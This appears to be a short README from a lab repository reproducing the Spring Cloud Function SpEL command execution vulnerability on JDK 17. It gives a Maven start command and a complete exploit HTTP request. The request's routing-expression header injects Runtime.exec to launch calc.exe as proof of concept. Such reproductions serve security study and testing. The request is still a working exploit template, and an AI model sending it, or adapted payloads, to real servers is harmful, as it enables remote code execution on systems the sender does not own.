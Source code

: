 ## Spring-Cloud-Function-Spel命令执行漏洞

> environment：jdk17

start:
```
mvn spring-boot:run
```

exp:
```
POST /spring HTTP/1.1
Host: 192.168.0.104:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc.exe")
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```
![img.png](images/calc.png)


